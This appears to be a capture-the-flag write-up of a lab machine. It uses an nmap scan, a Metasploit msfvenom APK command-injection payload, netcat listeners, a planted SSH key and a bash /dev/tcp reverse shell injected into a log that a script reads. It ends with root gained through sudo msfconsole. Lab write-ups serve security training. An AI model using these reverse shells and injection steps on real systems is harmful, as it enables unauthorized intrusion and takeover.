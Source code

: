 First we ran an nmap scan on the system:
```
nmap -sV -sC -T4 10.10.10.226
```
we found an open port 5000 and then browsed to the endpoint and found a website that allowed us to upload files.
using search sploit found out that msfconsole could be used to generate a payload that could exploit the machine

commands
```
use exploit/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection
set lhost <attacker ip>
set lport 4444
exploit
```
the exploit did not work with the python reverse shell so we switched to a netcat reverse  shell and it generated an apk file.
We then uploaded the file to the website and opened up a netcat listener ```nc -nlvp 4444```

We successfully gained user access to the machine and then cd'd into the .ssh folder and downloaded an authorized_keys file generated with ```ssh-keygen -f rsa``` and sent it with netcat ```nc -w 3 <victim ip> 1234 < authorized_keys``` recieved it with ```nc -nlvp 1234 > authorized_keys```.

after sshing in I gained access to the pwn folder and found a script called "scanlosers.sh" that called to a file called "~/logs/hacker".

we created a one liner reverse shell to connect to user pwn successfully.

```
echo "  ;/bin/bash -c 'bash -i >& /dev/tcp/10.10.16.9/4444 0>&1' #" >> hackers
```
Using ```sudo -l``` we found that the user had root permissions to use the binary /opt/metasploit-framework-6.0.9/msfconsole.

going to GTFO bins I found an exploit that allowed me to get root privledges with the commands"
```
sudo msfconsole
#msf6 > irv
```
We now have root access to the machine action is no longer required.
